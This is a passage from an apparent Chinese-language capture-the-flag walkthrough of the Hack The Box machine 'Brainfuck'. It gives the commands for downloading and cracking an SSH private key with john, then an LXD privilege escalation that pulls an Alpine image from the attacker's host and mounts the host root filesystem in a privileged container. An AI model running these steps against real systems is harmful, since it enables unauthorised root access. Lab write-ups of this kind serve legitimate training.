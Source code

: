   

- linux 私钥解密

  ```bash
  curl https://brainfuck.htb/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa -k -o id_rsa
  ```

  ```
  python /usr/share/john/ssh2john.py id_rsa   
  john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
  ```

  私钥权限 400

  ```bash
  chmod 400 id_rsa
  ssh -i id_rsa orestis@10.10.10.17
  ```

  

- LXD/LXC容器提权

  > LXD 是基于 LXC 容器技术实现的轻量级容器管理程序，而 LXC 是 Linux 系统自带的容器。提权原理与 Docker 提权非常相似，本质都是利用用户创建一个容器，在容器中挂载宿主机的磁盘后使用容器的权限操作宿主机磁盘修改敏感文件，比如`/etc/passwd`、`/root/.ssh/authorized_keys`、`/etc/sudoers`等，从而完成提权。

  ```bash
  orestis@brainfuck:~$ id
  uid=1000(orestis) gid=1000(orestis) groups=1000(orestis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare)
  ```

  ```http
  https://www.exploit-db.com/exploits/46978
  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
  https://www.hackingarticles.in/lxd-privilege-escalation/
  ```

  kali操作

  ```bash
  git clone  https://github.com/saghul/lxd-alpine-builder.git
  cd lxd-alpine-builder
  ./build-alpine
  ```

  靶机操作

  ```bash
  wget http://10.10.16.3:8888/alpine-v3.13-x86_64-20210218_0139.tar.gz
  ```

  ```bash
  lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
  ```

  ```bash
  lxc image list
  lxc init myimage ignite -c security.privileged=true
  lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
  lxc start ignite
  lxc exec ignite /bin/sh
  id
  ```
